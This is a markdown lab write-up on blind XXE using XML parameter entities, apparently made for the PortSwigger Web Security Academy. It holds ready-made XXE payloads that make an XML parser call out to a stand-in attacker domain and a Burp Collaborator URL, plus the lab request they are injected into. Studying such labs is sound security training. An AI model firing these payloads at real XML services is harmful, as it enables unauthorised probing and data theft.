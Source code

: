 # Blind XXE with out-of-band interaction via XML parameter entities

[Lab in PortSwigger](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)

## Definition
Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:
```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```

And second, parameter entities are referenced using the percent character instead of the usual ampersand: `%myparameterentity;`

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:
```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful. 

## Notes
This lab has a `Check stock` feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. 

**Remote Host**  
- [Portsweeger lab with an exploit server](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-simple-bypass)
- [Remote URL](https://exploit-0a35000204f00ae7c0716b4e017f00d0.web-security-academy.net/exploit)
- [Fake burpcollaborator URL](https://abc1234def.burpcollaborator.net)


**Original Request**
```http
POST /product/stock HTTP/1.1
...

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>4</productId><storeId>3</storeId></stockCheck>
```

**Malicious Payload**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE exploit [<!ENTITY % pwn SYSTEM "https://abc1234def.burpcollaborator.net"> %pwn;]>
<stockCheck>
    <productId>4</productId>
    <storeId>3</storeId>
</stockCheck>
```

## Key Words
> xml, xxe, blind, remote server, exploit server, parameter entities